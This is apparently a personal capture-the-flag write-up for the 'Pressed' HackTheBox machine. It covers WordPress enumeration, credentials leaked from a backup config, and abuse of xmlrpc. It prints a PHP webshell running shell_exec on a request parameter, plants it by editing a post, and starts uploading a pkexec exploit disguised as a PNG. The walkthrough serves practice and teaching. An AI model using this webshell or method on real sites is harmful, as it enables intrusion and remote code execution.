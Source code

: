 With [[nmap]] we found just [[port 80]] open.
![[Pasted image 20250421025119.png]]
we can use [[wpscan]] to get vulnerable vectors about [[Wordpress]] page.


![[Pasted image 20250421031433.png]]
`wp-config.php.bak` are exposed, we can check if have information relevant.

were we found this data
![[Pasted image 20250421031701.png]]
may be useful.
If we try enter with that credentials in `wp-login.php` we got a credentials are invalid, but if we use `uhc-jan-finals-2022` we got access.
and found we need a opt code.

![[Pasted image 20250421030748.png]]
[[xmlrpc.php]] it's exposed.
```bash
 curl -s -X POST http://pressed.htb/xmlrpc.php -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>"
```
with that sentence we can list a methods allowed.

using a interactive session of [[Python]] we can try get posts with the lib [[python-wordpress-xmlrpc]].

```python
from wordpress_xmlrpc import Client
import wordpress_xmlrpc.methods as wp
import collections
import collections.abc

collections.Iterable = collections.abc.Iterable

client = Client('http://pressed.htb/xmlrpc.php', 'admin', 'uhc-jan-finals-2022')
 
 plist = client.call(wp.posts.GetPosts()) 
# output: [<WordPressPost: b'UHC January Finals Under Way'>]
```
If we check the content of that post
```python
>>> plist[0].content
# output: '<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
>>> 
```

it's relevant the field `code`, that's is the responsible of metrics in the main web app, 
![[Pasted image 20250421040154.png]]
we can try replace the code to execute whatever we want.
let's try upload this webshell:

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
in [[base64]]:
`PD9waHAKICBlY2hvICI8cHJlPiIgLiBzaGVsbF9leGVjKCRfUkVRVUVTVFsnY21kJ10pIC4gIjwvcHJlPiI7Cj8+Cg==`
first is create a malicious post with our code in base64
![[Pasted image 20250421041149.png]]
and now, edit the original post.
![[Pasted image 20250421041313.png]]
so, on the web we can play with the parameter `cmd` and all works correctly.
![[Pasted image 20250421041414.png]]
if we check by suid perms we found pkexec is [[suid]], so we can use a exploit of [[pkexec]], first idea is upload this to machine.

first with interactive python console where we insert the malicious post, we can create a variable that have the content of [[pkexec]] exploit.

![[Pasted image 20250421182600.png]]
and set another variable to upload
```python
data_to_upload = { 'name': 'pkowner.png', 'bits': filename, 'type': 'text/plain' }
```
and using method media of [[python-wordpress-xmlrpc]] we can try send
![[Pasted image 20250421182955.png]]
and yes.
